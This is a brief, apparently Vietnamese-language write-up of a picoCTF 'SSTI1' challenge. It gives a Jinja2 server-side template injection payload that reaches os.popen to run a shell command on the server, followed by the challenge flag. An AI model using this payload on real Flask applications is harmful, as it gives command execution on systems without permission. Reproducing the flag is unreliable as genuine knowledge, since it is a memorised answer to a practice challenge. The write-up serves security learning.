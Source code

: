 # SSTI1 - Easy
## Description
I made a cool website where you can announce whatever you want! Try it out!
## Analysis
Chỉ cần nhìn tiêu đề của bài là ta đã biết trang web này có lỗi Server Side Template Injection. Bài này không có hạn chế gì đối với đầu vào. Việc tiếp theo cần làm là google tìm payload :D  
  
Một điều cần lưu ý là payload phải dành cho flask framework
## Solution
```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```
## Flag
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```